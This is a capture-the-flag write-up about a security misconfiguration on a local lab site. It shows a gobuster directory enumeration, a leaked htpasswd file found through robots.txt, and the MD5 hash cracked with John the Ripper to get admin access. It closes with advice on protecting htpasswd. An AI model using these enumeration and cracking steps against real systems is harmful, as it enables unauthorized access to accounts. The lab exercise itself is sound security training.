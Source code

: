 ## [Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)

A common tool for file enumeration is called [gobuster](https://github.com/OJ/gobuster). It allows to find URLs on a website that are not accessible through hyperlinks:

```console
$ gobuster dir -u http://localhost:8080/ -w KaliLists/dirb/big.txt --exclude-length 975
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                KaliLists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 193] [--> http://localhost/admin/]
/audio                (Status: 301) [Size: 193] [--> http://localhost/audio/]
/css                  (Status: 301) [Size: 193] [--> http://localhost/css/]
/errors               (Status: 301) [Size: 193] [--> http://localhost/errors/]
/favicon.ico          (Status: 200) [Size: 1406]
/fonts                (Status: 301) [Size: 193] [--> http://localhost/fonts/]
/images               (Status: 301) [Size: 193] [--> http://localhost/images/]
/includes             (Status: 301) [Size: 193] [--> http://localhost/includes/]
/js                   (Status: 301) [Size: 193] [--> http://localhost/js/]
/robots.txt           (Status: 200) [Size: 53]
/whatever             (Status: 301) [Size: 193] [--> http://localhost/whatever/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Several files and folders are of interest here since we didn't find them by clicking through the website: `/admin`, `/robots.txt` and `/whatever`.

The `robots.txt` file has the following content:

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden # used for another vulnerability
```

Inside `/whatever`, there is a file `htpasswd`, a common filename for basic authentification in Apache, with what appears to be admin credentials: `root:437394baff5aa33daa618be47b75cb49`.

The [dcode cipher identifier](https://www.dcode.fr/cipher-identifier) shows that the value is likely MD5, but its [MD5 decoder](https://www.dcode.fr/md5-hash) fails to decode the value.

We use a stronger MD5 decoder, [John the Ripper](https://www.openwall.com/john/), which finds the correct password:

```console
john --format=Raw-MD5 security_misconfiguration/resources/htpasswd
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=20
Proceeding with single, rules:Single
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:00 DONE 1/3 (2025-05-23 17:25) 0g/s 49250p/s 49250c/s 49250C/s Root1909..Root1900
Proceeding with wordlist:/tmp/tmprw0oww41/password.lst
Enabling duplicate candidate password suppressor
qwerty123@       (root)
1g 0:00:00:00 DONE 2/3 (2025-05-23 17:25) 7.142g/s 3720Kp/s 3720Kc/s 3720KC/s tanya74..Miracles
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

We login with `root` and `qwerty123@` on `/admin` and get the flag.

Once again, `robots.txt` is not a security measure. The `htpasswd` file shouldn't be readable by a user who knows or finds its URL.

In Apache, the `htpasswd` file is generally protected with a `.htaccess` file with content similar to this:

```
ErrorDocument 401 "Authorisation Required"
AuthType Basic
AuthUserFile /path/to/.htpasswd
Require user username
Satisfy All
```
